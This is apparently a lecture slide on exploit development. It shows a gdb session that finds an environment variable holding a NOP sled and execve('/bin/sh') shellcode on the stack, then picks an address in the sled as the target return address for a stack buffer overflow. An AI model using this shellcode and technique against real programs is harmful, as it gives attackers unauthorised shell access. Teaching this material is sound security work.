

# Finding the env vars on the stack with gdb
$ gdb ./auth_overflow2

(gdb) break main
(gdb) run
//finds the environment variables on the stack
(gdb) x/24s $esp + 0x1FF
0xbffff8ff:      "SHELLCODE=", '\220' <repeats 190 times>...
0xbffff9c7:
"\220\220\220\220\220\220\220\220\220\2201�1�1�\231���\200j\vXQh//shh/bin\211�Q\211�S\211��\200"
0xbffff9f5:      "TERM=xterm"
0xbffffa00:      "SHELL=/bin/bash"
0xbffffa10:      "GTK_RC_FILES=/etc/gtk/gtkrc:/home/reader/.gtkrc-1.2-gnome2"
0xbffffa4b:      "WINDOWID=20971602"
0xbffffa5d:      "USER=reader"
0xbffff9c7 is going to be our target return address... right in the middle of that sweet NOP sled